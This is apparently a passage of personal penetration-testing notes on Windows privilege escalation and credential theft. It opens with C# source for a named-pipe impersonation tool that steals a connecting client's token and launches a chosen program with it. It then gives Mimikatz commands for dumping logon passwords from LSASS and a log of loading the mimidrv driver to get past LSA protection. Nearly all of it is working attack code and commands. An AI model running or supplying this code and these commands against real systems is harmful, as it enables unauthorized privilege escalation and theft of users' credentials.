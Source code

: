         static void Main(string[] args)
        {
            if (args.Length < 1)
            {
                Console.WriteLine("Usage: "+AppDomain.CurrentDomain.FriendlyName+" excutefilename pipename");
                return;
            }
            string excutefilename = args[0];
            string pipeName = args[1];

            IntPtr hPipe = CreateNamedPipe(pipeName, 3, 0, 10, 0x1000, 0x1000, 0, IntPtr.Zero);

            ConnectNamedPipe(hPipe, IntPtr.Zero);

            ImpersonateNamedPipeClient(hPipe);

            IntPtr hToken;

            OpenThreadToken(GetCurrentThread(), 0xF01FF, false, out hToken);

            int TokenInfLength = 0;

            GetTokenInformation(hToken, 1, IntPtr.Zero, TokenInfLength, out TokenInfLength);

            IntPtr TokenInformation = Marshal.AllocHGlobal((IntPtr)TokenInfLength);

            GetTokenInformation(hToken, 1, TokenInformation, TokenInfLength, out TokenInfLength);

            TOKEN_USER TokenUser = (TOKEN_USER)Marshal.PtrToStructure(TokenInformation, typeof(TOKEN_USER));
            IntPtr pstr = IntPtr.Zero;
            Boolean ok = ConvertSidToStringSid(TokenUser.User.Sid, out pstr);
            string sidstr = Marshal.PtrToStringAuto(pstr);
            Console.WriteLine(@"Found sid {0}", sidstr);

            IntPtr hSystemToken = IntPtr.Zero;
            DuplicateTokenEx(hToken, 0xF01FF, IntPtr.Zero, 2, 1, out hSystemToken);

            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
            STARTUPINFO si = new STARTUPINFO();
            si.cb = Marshal.SizeOf(si);
            CreateProcessWithTokenW(hSystemToken, 0, null, excutefilename, 0, IntPtr.Zero, null, ref si, out pi);
        }
    }
}

```
####  meterpreter load incognito
![[Pasted image 20210712220320.png]]
#### Mimikatz
LSASS-SeDebugPrivilege
```
privilege::debug
sekurlsa::logonpasswords
```
##### bypass HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa 
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
